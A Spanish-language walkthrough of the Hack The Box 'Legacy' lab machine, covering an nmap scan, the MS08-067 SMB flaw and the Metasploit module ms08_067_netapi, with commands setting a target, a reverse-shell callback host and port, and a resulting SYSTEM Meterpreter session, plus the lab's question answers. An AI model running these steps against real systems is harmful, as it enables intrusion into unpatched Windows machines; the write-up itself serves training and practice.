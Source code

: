 ----

----
![](../img/35b20e936aa2a3cfe70d8e72f1ef47d9.png)

### 🧪 Task 1 – ¿Cuántos puertos TCP están abiertos en Legacy?

📸 **Escaneo Nmap**

```bash
sudo nmap -sS -sV -Pn -p- 10.10.10.4
```

📍 Resultado:

![](../img/8c28a48cd79210ff3851ac447b49f8e5.png)

✅ **Respuesta:** `3`

> Solo están abiertos los puertos 135, 139 y 445, todos relacionados con servicios SMB/RPC.


### 📛 Task 2 – ¿Cuál es el CVE del 2008 que permite ejecución remota en SMB?

🔍 Búsqueda rápida en Google + análisis:

> El CVE más conocido de 2008 para SMB con ejecución remota es **CVE-2008-4250** (vulnerabilidad **MS08-067**).

✅ **Respuesta:** `CVE-2008-4250`

🧠 **Nota técnica:**  
Este fallo permitía ejecución remota al enviar paquetes SMB maliciosos a sistemas Windows XP, 2000 o 2003. Fue uno de los más críticos en su época.

![](../img/04c7caebe912df9878787d47c73fbe46.png)

### 🧨 Task 3 – ¿Cuál es el módulo de Metasploit que explota CVE-2008-4250?

🧰 En Metasploit:

![](../img/81a865f2e7adcf99d807c099c81c30f4.png)

📌 Resultado:

![](../img/b5588754efa4684b53518dbcb8212cb1.png)

✅ **Respuesta:** `ms08_067_netapi`

📝 Descripción:

> Este módulo explota un desbordamiento de búfer en el servicio `netapi32.dll`, permitiendo ejecutar código arbitrario con privilegios de SYSTEM.


🧰 Preparación del módulo en Metasploit

```bash
use exploit/windows/smb/ms08_067_netapi
show options
```

![](../img/c4927bc72bc7f782f07acc7c80c3fbe9.png)

📍 Configuración:

```bash
set RHOSTS 10.10.10.4
set LHOST 10.10.14.6  # Tu IP tun0
set LPORT 4444
```

💥 Ejecución:

![](../img/d23dcf7f646b94c918dbeb7b1da67b0c.png)

### 🧑‍💻 Task 4 – ¿Con qué usuario se ejecuta el exploit MS08-067?

🧠 Tras ejecutar el exploit en Metasploit y abrir la sesión Meterpreter, utilizamos el comando:

```bash
getuid
```

📍 Salida:

![](../img/f51b8ac5bfc97b9e65154f7ef59e77b6.png)

✅ **Respuesta:** `NT AUTHORITY\SYSTEM`

📌 **Significado:**  
El exploit se ejecuta con privilegios **SYSTEM**, el nivel más alto en un sistema Windows (superior incluso al de "Administrator").

🔒 Esto confirma que **no es necesaria escalada de privilegios** en esta máquina, ya que conseguimos directamente control total sobre el sistema.

### 🏁 Task 5 – Localización y captura de flags

#### 🧾 `user.txt`

📁 Ruta:

![](../img/d2f7111b2fc06d8f44612d3b1473e8ba.png)

#### 🧾 `root.txt`

📁 Ruta:

![](../img/ada37165d53bbe9ef55160f4cc7cf894.png)

### 🧠 Task 7 – Otra vulnerabilidad RCE en SMB (CVE 2017)

📌 La pregunta completa es:

> Además de MS08-067, el servicio SMB de Legacy también es vulnerable a otra vulnerabilidad de ejecución remota con un CVE de 2017. ¿Cuál es ese ID?

🔗 Exploit-DB:

1. Vamos a [https://www.exploit-db.com](https://www.exploit-db.com)
    
2. En el buscador, pon:

![](../img/14d8e5507e5cd65bc2751973dff7870d.png)

### 🔍 ¿Por qué `CVE-2017-0143`?

Aunque **CVE-2017-0144** (EternalBlue) es la más famosa, **HTB en esta máquina espera específicamente la primera del paquete MS17-010**, que es:

- **CVE-2017-0143**: Identificada como parte del exploit "EternalSynergy" / "EternalRomance"
    
- Relacionada con ejecución remota en SMBv1
    
- Compatible con sistemas antiguos como Windows XP y 2003 (como en esta máquina)
    

📦 Pertenece al boletín **MS17-010** junto con:

- `CVE-2017-0144` (EternalBlue)
    
- `CVE-2017-0145`, `0146`, `0147`, `0148`...
    

Pero **la más "compatible" con máquinas como Legacy (Windows XP)** es `0143`.

------
### ✅ Conclusión Final

📌 La máquina **Legacy** es un excelente ejemplo para comprender:

- Cómo identificar servicios antiguos (SMB en puertos 139 y 445).
    
- La explotación de **MS08-067** con **Metasploit**, sin necesidad de escalada de privilegios.
    
- La obtención directa de acceso `SYSTEM` y captura de flags.
    

🛠️ **Técnicas empleadas:**

- `nmap` para descubrimiento de puertos.
    
- `msfconsole` con el módulo `ms08_067_netapi`.
    
- Comandos internos de Windows (`cd`, `dir`, `type`) para localizar y visualizar las flags.
